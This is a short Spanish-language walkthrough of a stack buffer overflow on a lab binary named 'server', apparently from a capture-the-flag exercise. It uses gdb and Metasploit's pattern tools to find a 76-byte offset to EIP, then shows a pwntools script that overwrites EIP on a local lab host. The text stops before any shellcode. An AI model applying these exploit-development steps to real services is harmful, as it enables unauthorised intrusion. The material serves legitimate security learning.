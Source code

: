 
![image](https://github.com/user-attachments/assets/07b7c4bb-220c-4e3d-a0dd-45c3a8b4f008)

chequeo las protecciones del binario

![image](https://github.com/user-attachments/assets/11cb0156-76a7-4dbb-8e30-d60772a24ef6)


ahora lo ejecuto con el depurador `gdb`

```ruby
chmod +x server && gdb ./server -q
```

![image](https://github.com/user-attachments/assets/404ef75a-5f0a-4f49-9587-6b9ff21640c1)

ahora haciendo uso de 2 exploit de metasploit intentare calcular el `offset`

```ruby
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 500
```

![image](https://github.com/user-attachments/assets/c9eb8f61-153b-4406-b07b-c98b2a87b3f9)


esta cadena se la envio al binario `server`

![image](https://github.com/user-attachments/assets/8c8d7592-1c38-4d55-bd27-3b528c697112)

la direccion `0x63413563` corresponde al `EIP` asi que le pasamos este valor al segundo exploit que usaremos de metasploit

```ruby
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x63413563
```

![image](https://github.com/user-attachments/assets/4bccd166-c78b-405b-ba90-97cc51d91b28)

tenemos un offset de 76 byte asi que testeare si llego a controlar el registro `EIP`, pero para esto me creare un exploit 


exploit
```python
from pwn import *

def explotation():

    OFFSET = 76
    BUFF = b"A"*OFFSET
    EIP = b"BBBB"
    host = "172.17.0.1"
    port = 7777
    payload = BUFF + EIP
    l = remote(host, port)
    l.sendline(payload)


if __name__ == '__main__':
    explotation()

```

